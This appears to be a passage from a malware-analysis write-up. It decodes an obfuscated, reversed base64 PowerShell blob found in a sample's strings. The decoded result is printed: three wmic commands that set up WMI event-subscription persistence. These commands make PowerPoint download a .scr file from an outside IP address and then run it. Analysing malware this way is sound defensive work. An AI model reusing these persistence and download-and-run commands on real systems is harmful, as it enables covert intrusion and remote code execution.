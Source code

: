 On further inspection of the strings, we get another blob of powershell shenanigans.

![oh boy](https://media4.giphy.com/media/Ci0zsc4Fh5yQ2HdB1u/giphy.gif?cid=ecf05e47rep6by21luiqh0ssdectyg76ty2l3h1moaztuu1u&ep=v1_gifs_related&rid=giphy.gif&ct=g)

![image](https://user-images.githubusercontent.com/58165365/248574258-0460aa1b-b378-4115-a386-227e9bf3653e.png)

Normally, i would try execute this on my test Windows VM but i accidentally deleted it 😬. Not to worry, we can execute this on powershell in our Kali environment.

In the screenshot above, i have separated the commands in 3:

```powershell
─PS> $best64code = ("{5}{0}{2}{30}{12}{1}{14}{15}{6}{21}{31}{20}{10}{28}{7}{24}{11}{13}{22}{25}{17}{3}{19}{8}{4}{23}{26}{9}{16}{18}{27}{29}"-f 'mTuIX
Z0xWaGRnblZXRf9lI9','atdnCNoQDiI3Yz','IXZ0xWaGBSRUFURSNEIn5Wak5WaCJXZtV3cu92QvRlclRHbpZ0XfBCSUFEUgIibvlGdwlmcjNnY1NHX092byx','EIlNmbhR3culEdldmchRFIFJVRIdFIwAD','F','=IiIcp
Gb2dkYaN3VIJlIc1TZtFmTuIXZtV3cu92Q05WZ2VUZulGTk5WYt12bDJSPyVWb1NnbvNEIsIiIcN2ZJV1alFlZHVmIc1TZtF','h2YhNUZslmRlNWamZ2TcBjL2EDXlNWamZ2TcRnZvN3byNWaNxFbhN2bMxVY0FGRwBXQcVSRMl
kRPJFUSV0UVVCXzJXZzVFX6MkI9UGdhx','vJHXlNWamZ2TgQnZvN3byNWa','Zv1UZj5WY0NnbJ91Xg00TSZEIqACVDVET','dn5WYMl','Wb','LioGb2dkYaN3VIJlI9UWbh5EIFRVQFJ1QgIXZtV3cu92Q05WZ2','gMW','
VUZulGTk5WYt12bDBCSUFEUgIibvlGdwlmcjNnY1NHX092byxFXioTRDFEUTVUTB50','5iM4Qjc','lBXYwxGbhdHXl','nclVXUsIiM21WajxFdv9mci0TZjFGcTVWbh5EduVmdFBCLiM2ZJV1alFlZHV','UfJzMul2VnASQT
l','mI9UWbh5EIFRVQF','M5AiTJhEVJdFI05WZ2VkbvlGdhNWamlG','Rmbh1','GctVGVl5W','LgMWatdnCNoQDicSblR3c5N1XT9kZyVGUfFGdhREZlRHdh1','NlI9knclVXUgwiIMF1Vi0T','Nx1clxWaGBSbhJ3ZvJHU
cpzQi0Da0FGUlxmYhRXdjVGeFBC','mcvZkZyVG','ZnFW','J1QgIXZ0xWaGRnblZXRf9F','vNELiAyJyN2cuIDO0IXZwFGcsxWY39CN14CN4EjL3gTMuAjNv8iOwRHdodCIlhXZuQnbwJXZ39GUcZTMlNWamZ2TcR3b','IIR
VQQBiIu9Wa0BXayN2ciV3ccR3bvJHXcJiOFNUQQNVRNFkTvAyYp12d','FXioTRDFEUTVUTB50L','aM')

─PS> $base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null
─PS> $LoadCode = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("$base64"))
─PS> Write-Output $LoadCode
```

Locate powershell and execute the commands as shown below:

![image](https://user-images.githubusercontent.com/58165365/248574728-3541f892-723c-48a8-8fc4-85320fec3e5f.png)

![image](https://user-images.githubusercontent.com/58165365/248568747-4f7a365f-6cf7-44fd-840a-61dd2bf95499.png)

From the output, we now have readable commands that we will be breaking down in a few:


```powershell
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="eGfQekUIgc", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="RHWsZbGvlj", ExecutablePath="C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe 'http://60.187.184.54/wallpaper482.scr' ",CommandLineTemplate="C:\Users\%USERPROFILE%\AppData\Local\Microsoft\Office\16.0\OfficeFileCache\wallpaper482.scr"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"eGfQekUIgc\"", Consumer="CommandLineEventConsumer.Name=\"RHWsZbGvlj\""
```

